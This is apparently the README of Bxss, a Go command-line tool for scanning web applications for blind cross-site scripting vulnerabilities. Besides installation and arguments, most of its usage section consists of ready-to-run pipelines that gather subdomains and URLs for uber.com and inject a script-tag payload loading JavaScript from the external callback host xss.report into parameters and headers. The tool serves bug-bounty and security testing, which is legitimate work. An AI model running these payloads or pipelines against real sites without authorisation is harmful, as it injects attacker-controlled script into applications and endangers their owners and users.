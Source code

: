 <h1 align="center">
  <br>
  <img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/blinded-drib.png" width="200px" alt="Bxss">
  <br>
  Bxss - Blind XSS Scanner
</h1>

<p align="center">
  <a href="https://github.com/ethicalhackingplayground/bxss/releases/latest">
    <img src="https://img.shields.io/github/v/release/ethicalhackingplayground/bxss?style=flat-square" alt="Version">
  </a>
  <a href="https://github.com/ethicalhackingplayground/bxss/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-MIT-yellow.svg?style=flat-square" alt="License">
  </a>
  <a href="https://goreportcard.com/report/github.com/ethicalhackingplayground/bxss">
    <img src="https://goreportcard.com/badge/github.com/ethicalhackingplayground/bxss?style=flat-square" alt="Go Report Card">
  </a>
  <a href="https://pkg.go.dev/github.com/ethicalhackingplayground/bxss">
    <img src="https://pkg.go.dev/badge/github.com/ethicalhackingplayground/bxss.svg" alt="Go Reference">
  </a>
</p>

---

## 🚀 Description
Bxss is a high-performance Blind XSS scanner that automates the detection of blind XSS vulnerabilities in web applications.

---

## ✨ Features
- Injects Blind XSS payloads into custom headers & parameters
- Supports multiple HTTP methods (PUT, POST, GET, OPTIONS)
- High-speed scanning with concurrency support
- Easily chainable with other tools
- Simple installation and usage

---

## 🧪 Experimental Features
- Trace mode (experimental)

---

## 📦 Installation
```bash
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest
```

---

## ⚙️ Arguments

| Argument       | Description                                             | Default  |
| ------------- | -------------------------------------------------------- | -------- |
| `-a`          | Append the payload to the parameter                      | `false`  |
| `-c int`      | Set the concurrency level                                | `30`     |
| `-H string`   | Set a custom header                                      | `""`     |
| `-hf string`  | Path to file with headers                                | `""`     |
| `-p string`   | The blind XSS payload                                    | `""`     |
| `-pf string`  | Path to file with payloads                               | `""`     |
| `-t`          | Test parameters for blind XSS                            | `false`  |
| `-X string`   | HTTP method to use                                       | `""`  |
| `-v`          | Enable debug mode                                        | `false`  |
| `-rl float`   | Rate limit (requests per second)                         | `0`      |
| `-f`          | Follow redirects                                         | `false`  |
| `-l`          | Enable Trace Mode (experimental)                          | `false`  |
---

## 🎬 Demonstration
<p align="center">
  <a href="https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm">
    <img src="https://asciinema.org/a/mPB0Vms70kvD8dd99BwYi1ucm.svg" alt="Demo">
  </a>
</p>

---

## 📝 What is Trace mode?
Trace mode is an experimental feature that allows you to track where the BlindXSS got triggered, some third party BlindXSS platforms such as [https://xss.report/](https://xss.report/) allows you to specify custom parameters in you're payloads, this allows you to track where the BlindXSS got triggered, for example if you specify the parameter `url=https://somehost.com` in your payload, the tool will use the payload 
```js
'"><script src=https://xss.report/c/username?url=https://somehost.com></script>'
```
for testing and upon a trigger you will be able to inspect the DOM and see what host the BlindXSS got triggered from.

 <img src="https://github.com/ethicalhackingplayground/bxss/blob/master/static/xss.report.png" alt="Xss Report">

Make sure when assigning custom parameters in you're dashboard that you assign `url={LINK}` so bxss can automatically replace `{LINK}` with the actual URL. 

## 🔥 Usage Examples

### Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-t
```

### Append To Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -a -p '><script src=https://xss.report/c/username></script>' \
-t
```

### Both Headers & Parameters
```bash
subfinder -d uber.com \
| gau \
| grep "&" \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \
-t
```

### X-Forwarded-For Header
```bash
subfinder -d uber.com \
| gau \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "X-Forwarded-For"
```

### Custom Headers & Parameters
```bash
echo uber.com \
| haktrails subdomains \
| httpx \
| hakrawler -u \
| bxss -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \
-t
```

### Google Dorks With Dorki
```bash
curl -X GET -H "Authorization: Bearer <Token>" \
-H "X-Secret-Key: <Secret>" \
https://dorki.attaxa.com/api/search?q=site:example.com -s \
| jq -r .[][].url \
| grep "&" \
| bxss -a -p '><script src=https://xss.report/c/username></script>'
```

### Custom Headers & Parameters With Rate Limit
```bash
echo uber.com \
| haktrails subdomains \
| httpx \
| hakrawler -u \
| bxss -a -p '><script src=https://xss.report/c/username></script>' \
-H "User-Agent" \ 
-t \
-rl 10
```

For advanced dorking and vulnerability exploration, check out [Dorki](https://dorki.attaxa.com/) and sign up today!

---

## ☕ Support the Project
If you get a bounty using this tool, consider supporting by buying me a coffee!

<p align="center">
  <a href="https://buymeacoffee.com/zoidsec" target="_blank">
    <img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;">
  </a>
</p>

